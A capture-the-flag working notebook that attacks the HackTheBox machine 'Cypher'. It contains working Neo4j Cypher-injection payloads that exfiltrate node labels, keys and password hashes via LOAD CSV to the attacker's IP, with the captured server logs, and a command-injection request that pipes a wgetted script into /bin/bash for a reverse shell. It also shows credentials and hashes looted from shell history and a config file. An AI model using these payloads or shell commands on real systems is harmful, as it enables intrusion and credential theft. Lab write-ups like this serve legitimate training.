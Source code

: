 ___



theres login page but I have no creds

*this is interesting*
307      GET        0l        0w        0c http://cypher.htb/api/ => http://cypher.htb/api/api


*auths user at this endpoint*
form action="[/api/auth](view-source:http://cypher.htb/api/auth)" method="POST">



*view source here* <== using neo4j database
view-source:http://cypher.htb/login



*the script *
<script> // TODO: don't store user accounts in neo4j function doLogin(e) { e.preventDefault(); var username = $("#usernamefield").val(); var password = $("#passwordfield").val(); $.ajax({ url: '/api/auth', type: 'POST', contentType: 'application/json', data: JSON.stringify({ username: username, password: password }), success: function (r) { window.location.replace("/demo"); }, error: function (r) { if (r.status == 401) { notify("Access denied"); } else { notify(r.responseText); } } }); }

*neo4j injection<===!!!!!*





*check these out*
307      GET        0l        0w        0c http://cypher.htb/api => http://cypher.htb/api/docs

301      GET        7l       12w      178c http://cypher.htb/testing => http://cypher.htb/testing/

200      GET       17l      139w     9977c http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar

200      GET     5632l    33572w  2776750c http://cypher.htb/us.png



TODO :
- cypher injection
- check out endpoints api looks interesting
-  ferox fuzzing -> /api endpoint?
- fuzz subdomains <- none found
- check out cookies, inspect around more/ network requests



Neo4j is using APOC (awesome procedure calls) 


====> its using a custom function for some functionality that I would be able to call using cypher !!!!



*neo4j ver*
 <neo4j.version>5.23.0</neo4j.version>

*maven ver*
<artifactId>maven-compiler-plugin</artifactId>
<version>3.8.1</version>

*maven plug in ver*
 <artifactId>maven-shade-plugin</artifactId>
<version>3.2.4</version>




*this is the custom function being used!!!* -> its taking user input

public Stream getUrlStatusCode(CustomFunctions this, String url) throws java.lang.Exception


function calls -> /bin/bash -c user_input !!!!






*this is the other custom function* -> prints "hello, {user_input}"
/* Flags:
     ACC_PUBLIC
   
   public Stream helloWorld(String name)  */




-> rev shell!!!!!!

*need to do a cipher injection call the custom function, then bypass the input filters on the java code and execute /bin/bash -c reverse shell*




com.cypher.neo4j.helloWorld()

com.cypher.neo4j.getUrlStatusCode()




scalar function

MATCH (n:Member)
RETURN org.neo4j.function.example.join(collect(n.name)) AS members



aggregation function
MATCH (n:Member)
RETURN org.neo4j.function.example.longestString(n.name) AS member




*error dumps the query statement*

Traceback (most recent call last): File "/app/app.py", line 142, in verify_creds results = run_cypher(cypher) File "/app/app.py", line 63, in run_cypher return [r.data() for r in session.run(cypher)] File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run self._auto_result._run( File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run self._attach() File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach self._connection.fetch_message() File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner func(*args, **kwargs) File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message res = self._process_message(tag, fields) File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message response.on_failure(summary_metadata or {}) File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure raise Neo4jError.hydrate(**metadata) neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Variable `c` not defined (line 1, column 79 (offset: 78)) "MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'Spongebob' or 1=1 RETURN c//' return h.value as hash" ^} During handling of the above exception, another exception occurred: Traceback (most recent call last): File "/app/app.py", line 165, in login creds_valid = verify_creds(username, password) File "/app/app.py", line 151, in verify_creds raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}") ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'Spongebob' or 1=1 RETURN c//' return h.value as hash: Traceback (most recent call last): File "/app/app.py", line 142, in verify_creds results = run_cypher(cypher) File "/app/app.py", line 63, in run_cypher return [r.data() for r in session.run(cypher)] File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run self._auto_result._run( File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run self._attach() File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach self._connection.fetch_message() File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner func(*args, **kwargs) File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message res = self._process_message(tag, fields) File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message response.on_failure(summary_metadata or {}) File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure raise Neo4jError.hydrate(**metadata) neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Variable `c` not defined (line 1, column 79 (offset: 78)) "MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'Spongebob' or 1=1 RETURN c//' return h.value as hash" ^}[](http://cypher.htb/login#)



*this is*

"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'Spongebob' or 1=1 RETURN c//' return h.value as hash"




MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin' return h.value as hash


*unkown function error*

admin' RETURN com.cypher.neo4j.getUrlStatusCode("this is a test") AS hash//


admin' RETURN SHOW FUNCTIONS YIELD name, signature, description, isBuiltIn WHERE isBuiltIn = false RETURN name, signature, description//



SHOW FUNCTIONS EXECUTABLE BY CURRENT USER YIELD *

```cypher
admin' RETURN 1 AS h UNION CALL db.labels() YIELD label AS h//
```


MATCH (u:USER)-[:SECRET]->(h:SHA1) WHERE u.name = '' OR 1=1 WITH 1 AS dummy CALL { SHOW FUNCTIONS YIELD name, isBuiltIn WHERE isBuiltIn = false RETURN name } RETURN dummy // ' RETURN h.value AS hash


admin' OR 1=1 WITH 1 AS dummy CALL { SHOW FUNCTIONS YIELD name, isBuiltIn WHERE isBuiltIn = false RETURN name } RETURN dummy //



*take a look at this*

https://hackmd.io/@Chivato/rkAN7Q9NY



admin' OR 1=1 RETURN 1 AS dummy // SHOW FUNCTIONS YIELD name, isBuiltIn WHERE isBuiltIn = false RETURN name //'


admin' OR 1=1 RETURN 1 AS dummy // SHOW FUNCTIONS YIELD name, isBuiltIn WHERE isBuiltIn = false RETURN LOAD CSV FROM 'http://10.10.14.23:8000/'+name//'



`MATCH (n) WITH 1337 AS x CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://6z6kk6h009jysbrl8ahw89ji99f03p.burpcollaborator.net/'+d AS y RETURN y`




admin' OR 1=1 WITH 1 AS dummy CALL {MATCH(n) WITH l337 as x CALL db.labels() YIELD label AS d LOAD CSV FROM} RETURN dummy//




*base payload* (fill in inside call)
admin' OR 1=1 WITH 1 AS dummy CALL {} RETURN dummy//



admin' OR 1=1 RETURN com.cypher.neo4j.apoc.helloWorld() AS h//

HelloWorldProcedure


com.cypher.neo4j.apoc.HelloWorldProcedure()
com.cypher.neo4j.apoc.helloWorld()

com.cypher.neo4j.apoc.CustomFunctions()
com.cypher.neo4j.apoc.getUrlStatusCode()


```cypher
CALL db.labels()
admin' OR 1=1 WITH 1 AS dummy CALL {db.labels()} RETURN dummy//
```

HelloWorldProcedure$HelloWorldOutput



admin' OR 1=1 WITH 1 as dummy CALL{CREATE (n:Account) SET n.id=1, n.username="admin",n.admin=False,n.password="admin" RETURN n} RETURN dummy//



*read only*
{message: No write operations are allowed on this database. The database is in read-only mode on this Neo4j instance.}



```
CALL apoc.custom.list
```





*THIS WORKED* !!!!!!!!!!!

admin' OR 1=1 WITH 1 AS x CALL db.labels() YIELD label AS d  LOAD CSV FROM 'http://10.10.14.23:8000/?label=' + d AS y RETURN x AS hash//




MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin' return h.value as hash

*these are "tables"*
^[i10.10.11.57 - - [28/Jun/2025 20:05:04] "GET /?label=USER HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:05:04] "GET /?label=HASH HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:05:05] "GET /?label=DNS_NAME HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:05:05] "GET /?label=SHA1 HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:05:05] "GET /?label=SCAN HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:05:06] "GET /?label=ORG_STUB HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:05:06] "GET /?label=IP_ADDRESS HTTP/1.1" 200 -





*holly fucking shit, a user and a hash*
10.10.11.57 - - [28/Jun/2025 20:10:14] "GET /?u=graphasm HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:11:16] "GET /?name=graphasm HTTP/1.1" 200 -
10.10.11.57 - - [28/Jun/2025 20:16:11] "GET /?hash=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -



*got hash like this*
admin' OR 1=1 WITH 1 AS x MATCH (h:SHA1)  LOAD CSV FROM 'http://10.10.14.23:8000/?hash=' + h.value AS r  RETURN x AS hash//



*got hash like this another attempt*
admin' OR 1=1 WITH 1 AS x MATCH (h:HASH)  LOAD CSV FROM 'http://10.10.14.23:8000/?hash=' + h AS r  RETURN x AS hash//

/?user=9f54ca4c130be6d529a56dee59dc2b2090e43acf




*this worked to return keys of each node*
admin' OR 1=1 WITH 1 AS x  MATCH (h:SHA1)  UNWIND keys(h) AS k  LOAD CSV FROM 'http://10.10.14.23:8000/?key=' + k AS r  RETURN x AS hash//





# enumeration
*key for sha1*
10.10.11.57 - - [30/Jun/2025 02:55:39] "GET /?key=value HTTP/1.1" 200 -
*key for user*
10.10.11.57 - - [30/Jun/2025 02:56:53] "GET /?key=name HTTP/1.1" 200 -

*key for DNS_NAME*
10.10.11.57 - - [30/Jun/2025 02:57:38] "GET /?key=resolved_hosts HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:39] "GET /?key=host HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:39] "GET /?key=module_sequence HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:39] "GET /?key=discovery_path HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:39] "GET /?key=timestamp HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:40] "GET /?key=parent_uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:40] "GET /?key=web_spider_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:40] "GET /?key=tags HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:41] "GET /?key=scope_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:41] "GET /?key=id HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:41] "GET /?key=uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:41] "GET /?key=module HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:42] "GET /?key=type HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:42] "GET /?key=parent_chain HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:42] "GET /?key=scope_description HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:42] "GET /?key=scan HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:43] "GET /?key=data HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:43] "GET /?key=parent HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:43] "GET /?key=discovery_context HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:44] "GET /?key=host HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:44] "GET /?key=id HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:44] "GET /?key=discovery_path HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:45] "GET /?key=timestamp HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:45] "GET /?key=resolved_hosts HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:45] "GET /?key=parent_uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:45] "GET /?key=web_spider_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:45] "GET /?key=tags HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:46] "GET /?key=scope_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:46] "GET /?key=module_sequence HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:46] "GET /?key=uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:47] "GET /?key=module HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:47] "GET /?key=scan HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:47] "GET /?key=type HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:48] "GET /?key=discovery_context HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:48] "GET /?key=parent_chain HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:50] "GET /?key=scope_description HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:51] "GET /?key=data HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:51] "GET /?key=parent HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:51] "GET /?key=host HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:51] "GET /?key=id HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:52] "GET /?key=discovery_path HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:52] "GET /?key=timestamp HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:52] "GET /?key=resolved_hosts HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:52] "GET /?key=parent_uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 02:57:53] "GET /?key=web_spider_distance HTTP/1.1" 200 -



*SCAN KEYS*

10.10.11.57 - - [30/Jun/2025 03:02:47] "GET /?key=parent_uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:47] "GET /?key=scope_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:48] "GET /?key=uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:48] "GET /?key=scan HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:48] "GET /?key=type HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:49] "GET /?key=web_spider_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:49] "GET /?key=tags HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:49] "GET /?key=scope_description HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:49] "GET /?key=module HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:50] "GET /?key=timestamp HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:50] "GET /?key=parent HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:50] "GET /?key=discovery_context HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:51] "GET /?key=parent_chain HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:51] "GET /?key=module_sequence HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:51] "GET /?key=id HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:02:51] "GET /?key=discovery_path HTTP/1.1" 200 -



*ORG_STUB KEYS*
10.10.11.57 - - [30/Jun/2025 03:03:48] "GET /?key=discovery_path HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:48] "GET /?key=timestamp HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:49] "GET /?key=parent_uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:49] "GET /?key=scope_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:49] "GET /?key=module_sequence HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:49] "GET /?key=id HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:50] "GET /?key=uuid HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:50] "GET /?key=type HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:50] "GET /?key=web_spider_distance HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:51] "GET /?key=tags HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:51] "GET /?key=scope_description HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:51] "GET /?key=module HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:51] "GET /?key=discovery_context HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:52] "GET /?key=data HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:52] "GET /?key=parent HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:52] "GET /?key=parent_chain HTTP/1.1" 200 -
10.10.11.57 - - [30/Jun/2025 03:03:53] "GET /?key=scan HTTP/1.1" 200 -


10.10.11.57 - - [30/Jun/2025 03:06:40] "GET /?hash=SCAN:eb3cf8eb641dd2e8005128c2fee4b43e59fd7785 HTTP/1.1" 200 -





*THERE IS SOMETHING HERE!*
422      GET        1l        2w       91c http://cypher.htb/api/cypher
-> this is very interesting migth be able to pass in cypher queries here -> different db context???? maybe?????




I must be on the wrong database context!!! <- bc apoc is not available here even though it is defined in the file




*I can query the database here FUCKING HUGE!!!*
GET /api/cypher?query=test HTTP/1.1




SHOW DATABASE (there are 2 databases here) <===

[{"name":"neo4j","type":"standard","aliases":[],"access":"read-only","address":"localhost:7687","role":"primary","writer":true,"requestedStatus":"online","currentStatus":"online","statusMessage":"","default":true,"home":true,"constituents":[]},{"name":"system","type":"system","aliases":[],"access":"read-write","address":"localhost:7687","role":"primary","writer":true,"requestedStatus":"online","currentStatus":"online","statusMessage":"","default":false,"home":false,"constituents":[]}]




*SHOW+PROCEDURES * look what i just found mf

{"name":"custom.getUrlStatusCode","description":"Returns the HTTP status code for the given URL as a string","mode":"READ","worksOnSystem":false},

{"name":"custom.helloWorld","description":"A simple hello world procedure","mode":"READ","worksOnSystem":false},{



*and it works I can call it*
GET /api/cypher?query=CALL+custom.helloWorld("helloo")





name":"custom.getUrlStatusCode"
description":"Returns the HTTP status code for the given URL as a string",



*this is doing request back to me* (no input sanitization apparently now I need shell)
GET /api/cypher?query=CALL+custom.getUrlStatusCode("wget+10.10.14.23:7777") HTTP/1.1



# SHELL 

*fuck yes I GOT SHELL*
GET /api/cypher?query=CALL+custom.getUrlStatusCode("wget+10.10.14.23:7777/props.sh+|+/bin/bash") HTTP/1.1





cat .bash_history
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK

targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
$ 



neo4j:SHA-256,6a4277a4653a8536cff2d6f44fc698621e237d33a0fa36a57c55fb3bfead7b48,3d19d683dc15384a6cae9dc840740e93116cae7b0786b9dfee4dbbacbc13a65c,1024:


*SYSTEM database could be something interesting I don't know whats on it*
*the neo4j is the one already enumerated*




*neo4j version*
Version: 5.24.1
Edition: Community


        "package_or_url": "bbot",
        "package_version": "2.1.0.4939rc0",
        "pip_args": [




*this is the bbot being used here*

https://github.com/blacklanternsecurity/bbot



*neo4j*
#   neo4j:
#     uri: bolt://localhost:7687



*GOT USER*

this is the pass for graphasm <===
cU4btyib.20xtCMCXkBmerhK



#   neo4j:
#     username: neo4j
#     password: bbotislife



*containernerd is on the machine so there are definitely things running on containers here*

port 8000 is running the container app


root        1755  0.1  0.6  98068 26012 ?        Ssl  Jun30   1:22  \_ /usr/local/bin/python3.9 /usr/local/bin/uvicorn app:app --reload --host 0.0.0.0 --port 8000 --root-path /api




*redoc*
ReDoc Version: 2.0.0-rc.75  
Commit: d7440fb


# priv esc

(redoc is running as root) => [CVE-2024-57083](https://www.cve.org/CVERecord?id=CVE-2024-57083)

there is  a cve here that i can use for RCE

but how tf i do this


*this is where the error is*
http://localhost:8000/redoc



also there is a script is loading. can I supply this .json file for it???
Failed to load http://localhost:8000/api/openapi.json: 404 Not Found





# root

was actually rlly easy sudo -l bbot can run as sudo


